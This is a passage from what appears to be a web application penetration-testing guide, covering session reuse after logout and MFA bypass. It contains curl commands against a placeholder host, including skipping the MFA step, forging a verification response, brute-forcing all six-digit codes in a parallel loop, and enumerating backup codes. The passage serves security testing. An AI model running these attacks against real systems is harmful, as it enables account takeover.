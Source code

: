 **Logout functionality:**

```bash
# 1. Login and capture session
curl -s -c cookies.txt http://target.com/login -d "username=test&password=test123"
SESSION=$(grep "session" cookies.txt | awk '{print $7}')

# 2. Logout
curl -b "session=$SESSION" http://target.com/logout

# 3. Try to reuse session
curl -b "session=$SESSION" http://target.com/dashboard

# Expected: 401 Unauthorized (session invalidated)
# Vulnerable: 200 OK (session still valid after logout)
```

### Multi-Factor Authentication (MFA) Bypass

**Common bypass techniques:**

```bash
# 1. Direct endpoint access (skip MFA page)
# Normal flow:
# /login → /mfa-verify → /dashboard

# Bypass attempt:
curl -b "session=partial_auth_session" http://target.com/dashboard
# Vulnerable if dashboard accessible without MFA

# 2. Response manipulation
# Capture MFA verification response:
POST /mfa-verify HTTP/1.1
Content-Type: application/json

{"code": "000000"}

# Response:
{"success": false, "mfa_valid": false}

# Modify response to:
{"success": true, "mfa_valid": true}

# 3. Rate limiting bypass
# Test unlimited MFA code attempts:
for code in {000000..999999}; do
    curl -X POST http://target.com/mfa-verify \
        -b "session=xyz" \
        -d "code=$code" &
done

# 4. Backup codes enumeration
curl -X POST http://target.com/mfa-verify -d "backup_code=00000000"
curl -X POST http://target.com/mfa-verify -d "backup_code=00000001"
# Should have rate limiting
```
